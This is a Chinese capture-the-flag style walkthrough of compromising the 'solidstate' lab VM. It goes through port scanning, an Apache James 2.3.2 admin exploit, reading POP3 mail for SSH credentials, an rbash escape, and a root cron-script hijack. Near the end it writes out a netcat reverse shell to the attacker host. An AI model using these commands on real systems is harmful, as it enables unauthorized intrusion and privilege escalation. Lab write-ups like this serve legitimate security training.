# 前言

靶机：`solidstate`靶机，IP地址为`192.168.10.8`

攻击：`kali`，IP地址为`192.168.10.6`

靶机和攻击机都采用`VMware`虚拟机，都采用桥接网卡模式

> 文章涉及的靶机及工具，都可以自行访问官网或者项目地址进行获取，或者通过网盘链接下载  `https://pan.quark.cn/s/460990a131a9`

# 主机发现

也就是相当于现实环境中去发现确定主机的`ip`地址，因为这里是靶机环境，所以跳过了从域名到`ip`地址的过程。

使用`arp-scan -l`或者`netdiscovery -r 192.168.10.1/24`

当然也可以使用`nmap`等工具进行

```shell
arp-scan -l
```



# 信息收集

## 使用nmap扫描目标端口等信息

首先扫描目标的`tcp`端口的开放情况

```shell
nmap -sT --min-rate=1000 192.168.10.8 -p- -oA nmap-tcp
```



再扫描`udp`端口的开放情况

```shell
nmap -sU --min-rate=1000 192.168.10.8 --top-ports 20 -oA nmap-udp
```



可以看到明确开放的`udp`端口没有，所以下面对`tcp`端口进行一个筛选，这里因为`22`端口并不是明确`closed`的，是`filtered`的，所以也要包括在内

```shell
ports=`grep /tcp nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','`
```



进一步对这些端口进行服务、系统等探测

```shell
nmap -sV -O -sC 192.168.10.8 -p $ports --min-rate=1000
```



再使用`nmap`的漏洞检测脚本对这些端口进行探测

```shell
nmap --script=vuln 192.168.10.8 -p $ports
```





## 网站信息探测

访问80端口网站，默认界面如下


在`MENU`菜单，发现有三个`html`界面，依次查看后，发现并没有信息，都是介绍，并且查看页面源代码也没有信息泄露。

那么尝试进行目录爆破，使用`gobuster、dirb、dirsearch`等工具进行测试

```shell
gobuster dir -u http://192.168.10.8 -w /usr/share/wordlists/dirb/big.txt -b 403-404 -x php,html,txt,md,zip
```



在访问众多信息后，并没有发现内容，对`js`代码做了简单的审计，也是没有发现。搜索对应的`jquery`版本，没有找到漏洞，网站方面暂时搁置

# 4555端口james漏洞

之前扫描端口的时候，发现该4555端口的具体信息，`james remote admin 2.3.2`，尝试进行连接，发现需要用户名id和密码



使用`searchsploit`搜索有无对应版本的漏洞，发现有两个可利用的`py`脚本，并且还有一个文档，详细记录了漏洞



那么尝试使用`35513.py`脚本，当然两个脚本都可以的。首先查看一下代码，不放完全代码





这个脚本总体是创建一个用户`root`，密码为`root`，然后可以登录，并且还可以连接`25`端口的`smtp`服务，那么就代表这里的用户，应该是可以登录到`smtp`服务中的

执行脚本，可以发现执行成功



那么再次连接`4555`端口，使用用户名`root`和密码`root`登录



因为可以登录`smtp`服务，所以是可以查看邮件的，每一个用户的邮件应该都不一样，所以更改密码进行测试



# 25端口smtp登录

总结前面的用户名和密码

| 用户名    | 用户名(base64)   | 密码 | 密码(base64) |
| --------- | ---------------- | ---- | ------------ |
| james     | amFtZXMK         | 123  | MTIzCg==     |
| thomas    | dGhvbWFzCg==     | 123  | MTIzCg==     |
| john      | am9obgo=         | 123  | MTIzCg==     |
| mindy     | bWluZHkK         | 123  | MTIzCg==     |
| mailadmin | bWFpbGFkbWluCg== | 123  | MTIzCg==     |

这里登录到`25`端口，需要使用命令`auth login`，并且是经过`base64`编码的



不过对于邮件服务了解的，大概都清楚，`smtp`是一种发送邮件的协议，所以这里登录后只能发送邮件，这并不是想要的。不过，前面还有`pop3`服务，这个是用于接收邮件的协议。至于密码，可以拿上面的一个个测试

# pop3邮件查看

前面的文章`goldeneye`中，我也把相关的命令整理了

| 命令 | 作用                                                         |
| ---- | ------------------------------------------------------------ |
| user | 输入user，并在后面跟着用户名，就是进行身份认证               |
| pass | 在键入用户名后，输入对应的密码                               |
| stat | 用于获取邮箱的状态信息                                       |
| list | 如果不带参数，服务器会返回邮箱中每封邮件的编号和大小。如果带有邮件编号参数（如`LIST 2`），则服务器会返回指定编号邮件的大小 |
| retr | 用于从服务器检索指定编号的邮件内容。客户端发送`RETR`命令并带上邮件编号，服务器会返回该邮件的全部内容。 |
| dele | 用于标记指定编号的邮件为删除状态。不过，在 POP3 协议中，邮件通常不会立即被删除，而是在客户端发送`QUIT`命令后，服务器才会真正删除被标记的邮件。 |
| quit | 用于结束与服务器的会话。当客户端发送`QUIT`命令后，服务器会删除之前被标记为删除状态的邮件（如果有），并释放相关资源，然后关闭连接 |

使用`john`身份登录，发现一个邮件，并查看



继续测试，最终只有`mindy`登录后有文件，并且其中一个邮件中具有关键信息



用户名`mindy`和密码`P@55W0rd1!2@`

# rbash逃逸

进行`ssh`登录后，刚开始出现大量的`rbash`信息，经过实际查看环境变量，确实如此



查看限制，发现只有三个可用，并且`/`不允许使用



因为可以`ssh`连接，所以测试进行端口转发，能否绕过

```shell
#kali中执行
ssh -L 2222:localhost:22 mindy@192.168.10.8

#然后再连接本地的2222端口，也是在kali中
ssh mindy@192.168.10.8 -p 2222
```

使用`help`测试可用命令，发现有`export`，那么测试有哪些



然后使用`readonly -p`查看可读的变量，发现`term`是可以修改的



那么尝试在使用`ssh`连接的时候，修改`term`，然后执行一下，是否可以在连接时候执行`python`，使得绕过`rbash`

```shell
ssh mindy@192.168.10.8 -t "export TERM=xterm; python -c 'import pty;pty.spawn(\"/bin/bash\")'"

ssh mindy@192.168.10.8 -t "export TERM=xterm; python -c 'import os;os.system(\"/bin/bash\")'"
```




另一种方式可以借助之前的`py`脚本进行，这里借助第二个，`50347.py`



然后监听`1234`端口，在`kali`中使用`ssh`连接目标，即可发现反弹到了`nc`监听，并绕过`rbash`



# 提权

尝试搜索SUID权限文件以及搜索有无另一个用户的密码，都没有找到。

在查看进程的时候，发现一个目录下的脚本以root执行，并且这个感觉有可能



切换到目录去查看，可以看到只有执行权限，没有写权限



进一步查看这个脚本，是否有调用什么，但是还是没有

不过在其所在的`/opt`目录，发现另一个`py`脚本，并且具有全部的权限，还是以`root`身份。查看这个脚本，发现是删除临时目录中的所有文件



不知道是否是定时脚本，尝试上传`pspy64`，不过并不能执行，我在探索很久后，想着去`/tmp`目录，发现之前上传的`pspy64`没了，这说明这个`py`脚本是定时任务了，那就好办了

修改脚本文件内容

```shell
echo 'import os;os.system("/bin/nc 192.168.10.6 8888 -e /bin/bash")' > tmp.py
#因为测试/bin/bash直接反弹，好像不行，所有采用nc
```



在`kali`另起终端，开启监听8888端口，然后大概两分钟，获取到`root`的shell



# 总结

该靶机的考察，主要在邮件服务以及逃逸`rbash`

1. 对于网站，没有敏感信息是常态，不过该测试的都测
2. 对于`smtp`和`pop3`邮件协议，这里可能会有对外开放的可能，就需要收集到的信息进一步去登录，从邮件中收集信息
3. `James` 是一个用 `Java `实现的开源邮件服务器，它提供了 `SMTP、POP3、IMAP `等邮件服务功能。而就是通过找到其历史漏洞，打开突破口。


